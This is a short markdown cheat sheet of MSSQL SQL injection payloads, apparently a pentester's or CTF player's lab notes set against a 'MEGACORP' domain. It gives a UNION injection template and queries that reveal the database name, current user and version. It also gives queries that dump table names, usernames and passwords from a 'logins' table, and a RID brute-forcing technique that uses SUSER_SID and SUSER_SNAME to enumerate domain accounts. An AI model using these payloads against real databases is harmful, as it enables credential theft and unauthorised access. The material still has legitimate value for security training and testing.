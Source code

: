 # mssql

##### general queries

union queries

select all union 1, 2, 3, <inject>, 5-- 

```
db_name()																	"current db"
db_name(n)																	"bruteforce db"
user, system_user, current_user												"running as user"
@@version																	"version"
(SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')		"dump tables"
```

![image-20200922131425094](mssql.assets/image-20200922131425094.png)



##### dumping information

```
(SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')		"dumping table"
(SELECT STRING_AGG(username,',') from logins)								"dumping columns"
(SELECT STRING_AGG(password,',') from logins)								"dumping columns"
```



![image-20200922131859662](mssql.assets/image-20200922131859662.png)





##### brute_rid

````
master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
````

- removing last 4 bytes will give us identifier we can increment rid to get new users
- also note it is in little endian order

![image-20200922132144302](mssql.assets/image-20200922132144302.png)



```
SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000) 	"finding username from sid"
```

![image-20200922132708871](mssql.assets/image-20200922132708871.png)



- writing a script

![image-20200922132948150](mssql.assets/image-20200922132948150.png)
